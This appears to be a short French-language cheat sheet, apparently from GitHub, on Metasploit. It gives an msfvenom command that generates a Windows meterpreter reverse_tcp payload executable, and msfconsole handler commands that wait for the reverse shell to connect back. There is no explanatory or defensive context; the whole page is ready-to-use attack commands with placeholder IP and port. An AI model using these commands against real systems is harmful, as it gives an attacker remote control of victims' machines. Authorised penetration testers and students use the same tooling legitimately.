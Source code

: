 # msfconsole

## Créer un _meterpreter_

```
/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```

## Attendre la connexion d'un _meterpreter_

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
run
```
